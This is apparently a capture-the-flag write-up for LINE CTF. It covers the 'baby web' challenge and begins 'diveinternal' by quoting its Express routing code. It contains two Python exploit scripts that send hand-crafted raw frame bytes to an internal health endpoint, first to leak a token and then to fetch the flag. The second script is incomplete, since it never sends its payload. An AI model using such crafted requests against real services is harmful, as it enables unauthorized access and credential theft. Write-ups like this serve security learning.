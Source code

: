 

So, below code will leak token

```python
import requests

data = b'\x00\x00\x06\x01\x05\x00\x00\x00\x05\x82\x87\xc2\xc0\xbf\xbe\n\n'

r = requests.post('http://35.187.196.233/internal/health',json={'type':'2','data':data.decode('latin-1')})
print(r.text)
```

And this one will requests for flag(I crafted with the leaked token.)

```python
import requests

data = b'\x00\x00\x86\x01\x05\x00\x00\x00\x05\x82\x87\xc2D\x84bZ\x077@\x86\xf2\xb2O\xd4\xb5\x7f\xf4/\xac\xb3\xc7\x88\x86\xd4l\xb98{\xc8\x1d&\xc8\x8c\x95ml\x97\xb29\x93\xad\x7f\x9coe}r\xfa\xca\x12\x0b\x8f\xac\x9d\x0en|\xb6\xa4|\x9a6{\xd9}F/4d\xe8ss\xe5\xb5#\xe4\xd1\xb3\xde\xcb_?\xcd\x86\xd5\xd3\x00\xb4o\xe7\xebN\xfc\x00\xd3\xefK\xeb\xcd\x9f\x06\x10E\xa7\xd6W\xde\xcfX,\xbb\xfb.~\x9b;c\xea\xd3e{\xb5i\xb7\x84L\xd3\x7f\x06^\xcd\xb7\xc3\n\n' 

print(r.text)
```

Flag: `LINECTF{this_ch4ll_1s_really_baby_web}`



**diveinternal**

```js
// app.js

...

var apisRouter = require('./routes/apis');

...

app.use('/apis', apisRouter);

...
```

In `app.js`, it uses `./routes/apis.js` for `/apis` .



```js
// ./routes/apis.js

...

    router.get('/coin', function(req, res, next) {
      request({
            headers: req.headers,
            uri: `http://${target}/coin`,
          }).pipe(res);
      });

  router.get('/addsub', function(req, res, next) {
    request({
          
          uri: `http://${target}/addsub`,
          qs: {
            email: req.query.email,
          }
```